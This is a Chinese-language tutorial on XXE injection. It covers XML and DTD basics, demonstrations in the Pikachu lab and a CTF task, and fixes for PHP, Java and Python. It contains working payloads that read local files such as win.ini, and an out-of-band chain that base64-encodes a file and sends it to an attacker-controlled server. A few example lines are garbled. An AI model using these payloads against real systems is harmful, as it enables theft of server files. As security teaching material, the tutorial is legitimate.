

# XXE漏洞
## 什么是XXE？
XXE：XML External Entity 即外部实体，从安全角度理解成XML External Entity attack 外部实体注入攻击。在OWASP网站中对其的描述是：XXE是针对应用程序解析XML输入类型的攻击。当包含对外部实体的引用的 XML输入被弱配置的 XML 解析器处理时，就会发生这种攻击。程序在解析输入的XML数据时，解析了攻击者伪造的外部实体而产生。
## XML基础知识
XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。其实XML是一门可扩展标记语言（EXtensible Markup Language），类似于html，但是后来主要用xml的文档格式来传输数据，但是现在比较新的系统，大家之前传输数据用的是json了。现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的,从而也就直接避免了这个漏洞。
以PHP为例,在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。如果你测试用的php中解析xml用的libxml的版本大于了2.9.1，为了模拟漏洞,那么可以通过手动指定LIBXML_NOENT选项开启xml外部实体解析功能。
详细教程：https://www.w3school.com.cn/xml/xml_tree.asp
漏洞：

## 文档结构
简单了解即可，不需要细看，XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。
```
<?xml version=”1.0” encoding="gb2312" encoding=”UTF-8”?> //xml声明、版本、编码
<!DOCTYPE root system "http://www.XXXX.com/file"[ //定义DTD文件，格式为:root指定根节点名称，system声明要使用的外部DTD文件路径，后面加文件URL,注意[]包裹。
<!ELEMENT root (other)> // 元素声明，声明xml中包含的元素，声明中需要指定元素名称（root、other等）和元素类别、内容等
<!ELEMENT to (#PCDATA)> // <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT generalentity "content" > //ELEMENT标签用于声明实体，关于实体的定义如下：“实体是用于定义引用普通文本或特殊字符的快捷方式的变量”实体是在DTD文件中定义的变量，xml解析器解析xml文件的时候，会将被的引用替换为实体内容，实体分为：预定义实体、普通实体、参数实体，此处定义了普通实体generalentity,内容为content
<!ELEMENT % extendentity SYSTEM "http://www.XXXX.com/file"> //定义参数实体，格式为：<!ELEMENT % 参数名称 参数内容>
引用格式：%参数名称
参数实体只能在DTD文件中引用，内部DTD文件的参数引用只能出现于DTD标签可出现的位置，外部DTD文件参数实体的引用可以出于DTD标签内容，比如:<!ELEMENT % "%another">
%extendentity; //引用参数外部实体
``` 
## DTD的基础知识
Document Type Definition 即文档类型定义，用来为XML文档定义语义约束。可以嵌入在XML文档中
(内部声明)，也可以独立的放在一个文件中(外部引用)，由于其支持的数据类型有限，无法对元素或属性的内容进行详细规范，在可读性和可扩展性方面也比不上XML Schema。
参考链接： http://www.w3school.com.cn/dtd/index.asp
对于安全人员来讲，就认识下面的几行代码即可。
首先了解下基本的PAYLOAD结构，然后再介绍每部分涉及的知识点，如下PAYLOAD开头进行了XML的
声明，然后使用DTD声明实体(这里使用了file协议)，最后使用XML获取实体的数据。
基本的PAYLOAD结构：

上面的fles:///etc/passwd，这是直接读取服务器的passwd文件内容。最后XML部分就是调用DTD的foo功能，也就是调用xxe，取出数据然后显示，基本上任何xxe的攻击代码都是这么几部分。
使用DTD实体的攻击方式 ：
DTD 引用方式(简要了解)：
1. DTD 内部声明
```
<!DOCTYPE 根元素 [元素声明]>
```
2. DTD 外部引用
```
<!DOCTYPE 根元素名称 SYSTEM "外部DTD的URI">
```
3. 引用公共DTD
```
<!DOCTYPE 根元素名称 PUBLIC "DTD标识名" "公用DTD的URI">
```
示例：
```
<?xml version="1.0"?>
<!DOCTYPE configuration PUBLIC "-//mybatis.org//DTD Config 3.0//EN"
"http://mybatis.org/dtd/mybatis-3-config.dtd">
......
命名方法：以!DOCTYPE开始,configuration是文档根元素名称；
PUBLIC表示是公共DTD；-表示是非ISO组织；mybatis.org表示组织；
DTD 表示类型；Config 表示标签；3.0是标签后附带的版本号；
EN表示DTD语言是英语；最后是DTD的URL；
```
## 示例
先看看phpinfo

phpstudy，我们使用的php版本中。libxml可能版本大于了2.9.1，所以我们切换一下php版本
然后看一下pikachu中的xxe_1.php源代码，这个文件中有xxe攻击payload示例代码，就下面这几句

对于用户提交的xml数据，负责接收和执行的代码也在上述文件中，下面的位置

pikachu测试一下
payload如下:而且你需要掌握的代码就这几行，大家最好能够背下来。
```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY f SYSTEM "file:///C://1.txt">
]>
<x>&f;</x>
```
先到目标主机创建一个1.txt文件

效果：

就这么几句代码就完成了渗透，网上好多人读取的是etc/passwd 文件内容，因为大家都知道这个文件
默认所在位置，并且只要读取出这个文件内容，那么就算是漏洞了，就可以提交了。
## 如何找XXE漏洞

1. 查看请求头
可以对pikachu的示例进行抓包，看效果

accept请求头里面最好能够接受xml
2. 抓包修改数据类型
这里我们看一个真实的ctf考试题示例，将json数据改为xml数据，完成xxe攻击
详细可见：https://xz.aliyun.com/t/3357
jarvisoj上的一道题目API调用
这道题的题目说明是 ：请设法获得目标机器/home/ctf/flag.txt中的flag值。
进入题目 http://web.jarvisoj.com:9882/ 发现一个输入框，我们对其进行抓包

是一个json数据提交，修改数据发现可以被解析，修改为xml


搞定
## XXE攻击情况
进行xxe攻击的时候，有两种情况：有回显和无回显
有回显就是请求有响应数据能看到
无回显就是看不到响应数据

分别用以下两个文件来演示一下这两种情况

1.有回显
这种的比较简单
payload如下
```
<?xml version = "1.0"?> <!DOCTYPE note [ <!ENTITY hacker SYSTEM
"file:///c:/windows/win.ini" > ]> <name>&hacker;</name>
```
效果

这种就属于有回显，直接将文件数据展示出来了。
2.无回显
没有信息返回，可以使用外带数据通道提取数据，先使用php://filter获取目标文件的内容，然后将内容以http请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx。分如下两步
在此之前先查看是否开启日志记录功能，若未开启，打开httpd.conf文件打开日志记录，如下图：

然后重启phpstudy
a.建立*.dtd，比如我创建了一个test.dtd文件，内容如下，就放我我们上面目标主机的xxe2文件夹里面了。
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-
encode/resource=file:///c:/1.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.0.105:8080?
p=%file;'>">
这两句代码的意思是通过base64编码的方式读取文件内容，然后通过请求目标主机的ip地址加上一个不存在的路径或者参数数据，让它报错，%file就是用上面第一句获取到的数据
```
b.xml调用
```
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
效果：保存信息里面就有我们要读取的文件数据

如果无报错的话，需要访问接收请求的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。

我们清楚第看到服务器端接收到了我们用 base64 编码后的敏感文件信息(编码也是为了不破坏原本的XML语法)，不编码会报错。
整个调用过程：
我们从 payload 中能看到连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send以后(因为实体的值中不能有 %, 所以将其转成html实体编码 % )，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。
## XXE漏洞修复与防御
1. 提高版本
2. 代码修复

PHP：
```
libxml_disable_entity_loader(true);
```
JAVA:
```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
setFeature("http://apache.org/xml/features/disallow-doctype-decl",true);
setFeature("http://xml.org/sax/features/external-general-entities",false)
setFeature("http://xml.org/sax/features/external-parameter-entities",false);
```
Python:
```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
3. 手动黑名单过滤（不推荐）
过滤关键词： <!DOCTYPE 、<!ENTITY SYSTEM 、PUBLIC
## XXE漏洞学习参考
参考地址：https://xz.aliyun.com/t/3357